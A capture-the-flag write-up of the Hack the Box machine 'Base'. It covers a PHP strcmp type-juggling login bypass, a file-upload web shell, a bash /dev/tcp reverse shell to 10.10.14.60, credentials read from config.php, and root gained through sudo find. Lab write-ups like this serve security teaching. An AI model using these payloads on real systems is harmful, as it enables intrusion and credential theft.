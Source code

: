 ```yaml
---
title: Bastion
date: 2024-03-03 10:00
categories: [ctf, security, hacking, exploits, sudo exploitation, arbitrary file upload, authentication bypass, php type juggling]
tags: [ctf, security, hacking, exploits, sudo exploitation, arbitrary file upload, authentication bypass, php type juggling]
---
```


# Overview
Base is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some web app enumeration and a unique type juggling with php. The foothold is accomplished after digging into a unique file and digging into a specific function. The privilege escalation is accomplished through a sudo exploitation due to a misconfiguration that allows us to run a specific linux binary as root. 

## Nmap Scan
sudo nmap -sS -Pn `<target ip>` -vvv 
* 22/tcp open  ssh  syn-ack ttl 63
    * OpenSSH 7.6p1 Ubuntu
* 80/tcp open  http  syn-ack ttl 63
    * Apache httpd 2.4.29 ((Ubuntu))

## Basic Enumeration
Nikto Scan:
- /: Server may leak inodes via ETags, header found with file /, inode: 99b0, size: 5e0a23270d210, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
- OPTIONS: Allowed HTTP Methods: HEAD, GET, POST, OPTIONS .
- /upload.php?type=\"<script>alert(document.cookie)</script>: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- /login/: Directory indexing found.

Wfuzz Directory Enumeration
* "login"
* "assets"
* "forms"

* Under assets path:
    * "css"
    * "js"
    * "vendor"
    * "fonts"

* Under login path:
    * login.php
    * config.php
    * login.php.swp

The swap file is interesting, doing some further digging we find an article that helps explain what they are used for [here](https://www.techtarget.com/searchwindowsserver/definition/swap-file-swap-space-or-pagefile):
* Swap files store the changes that are made to the buffer. If Vim or your computer crashes, the swap files allow you to recover those changes. Swap files also provide a way to avoid multiple instances of an editor like Vim from editing the same file.

We downloaded the swap file to our machine. Some of it contains machine code, but there are a good number of strings we can read. We can strip them out with "strings", and read the contents. 

* Examining this file, we can see how the web page is set up to evaluate the inputs for the login portal. 
    * the strcmp() function is used to compare the input string for username and password

```php
if (strcmp($username , $_POST['username']) == 0) {
 if (strcmp($password, $_POST['password']) == 0) {
```
* We can see that the username and password are both contained in `[]`. If we have the ability to control how these parameters are passed to the server, we can force them to be evaluated as an array, and since the restriction is not set to be `===`, we have the possibility of passing any string. 
    * Basically, if the data we pass is not empty, due to this bug in php, it will evaluate it to be true, and give us access. A more thorough explanation and video can be found [here](https://www.youtube.com/watch?v=idC5SAsKhlE) by `IppSec`.

To exploit this, we load up BurpSuite and get ready to intercept the login input.

* The idea is to utilize the comparison of our input to pass it as an array rather than string comparison
* We changed it to go from `username=admin&password=admin` to `username[]=admin&password[]=admin`
* This gives us acces, and we can see a page that allows us to upload a file. 

## Foothold
We can pass a simple php file to see if we have the ability to do code execution:
```php
<?php echo system($_REQUEST['cmd']);?>
```
- Looks like we can get commands to run, we can run id to get which user we are able to access.
    - www-data
- If we try to get a reverse shell through this method, we may get an error, would be better to swap it to a post request.
* We can send the following over to get a connection back:
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.60/6666 0>&1'
```
We will need to url encode this so it is interpreted correctly by the server:
```bash
/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.60/6666+0>%261'
```
* We add the `+` for the spaces, and the `&` needs to be converted to `%26`, which is its equivalent. 

Now that we have access to the machine, we can check some files to see if we have any interesting documents. 
* One file has some credentials: `/var/www/html/login/config.php`
    * admin:thisisagoodpassword
* We can try to login over ssh to see if this works for admin, or the user on the box, `john`.

We now have ssh access, which is much more stable and very nice to have. We also now have access to `user.txt`.

## Local Enumeration
Running the command `sudo -l` will show us that we have the ability to run a binary as root: `/usr/bin/find`.

* We can check the `Gtfobins` site [here](https://gtfobins.github.io/) to see if this is possible to be abused to gain root.

## Privilege Escalation
Running this command will give us root access: `sudo find . -exec /bin/sh \; -quit `

* We have rooted the box, and can now get `root.txt`.